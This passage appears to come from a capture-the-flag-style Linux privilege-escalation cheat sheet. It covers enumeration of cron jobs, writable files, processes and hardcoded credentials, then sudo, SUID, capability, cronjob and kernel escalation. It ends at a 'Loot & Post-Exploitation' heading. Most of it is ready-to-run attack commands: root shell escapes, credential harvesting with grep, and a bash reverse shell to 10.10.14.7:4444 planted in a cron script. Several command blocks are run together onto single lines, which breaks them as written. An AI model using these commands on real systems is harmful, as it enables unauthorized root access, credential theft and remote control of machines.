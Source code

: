 `ls -la /etc/cron*  crontab -l systemctl list-timers --all`

_Why:_ Writable scripts executed by root.

### 4.6 Writable Files & Folders

`find / -writable -type f 2>/dev/null | head`

_Why:_ Abuse writable scripts or configs.

### 4.7 Running Processes

`ps aux --forest netstat -tulpn ss -tulpn`

_Why:_ Hidden services or root-owned processes.

### 4.8 Configs & Credentials

`grep -Ri "password" /var/www 2>/dev/null grep -Ri "DB_PASS" /var/www 2>/dev/null`

_Why:_ Hardcoded creds = lateral movement or root escalation.

* * *

## 5\. Privilege Escalation

### 5.1 Sudo Exploits

`sudo -l # Example: user can run 'vim' as root sudo vim -c ':!/bin/sh'`

### 5.2 SUID Escalations

`/usr/bin/find . -exec /bin/sh -p \; -quit`

### 5.3 Capabilities

`python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'`

### 5.4 Cronjob Hijack

Replace writable cron script with reverse shell:

`echo 'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1' > /path/to/cron.sh`

### 5.5 Kernel Exploits

If old kernel:

`uname -r searchsploit linux kernel <version>`

* * *

## 6\. Loot & Post-Exploitation

### 6.1 Flags
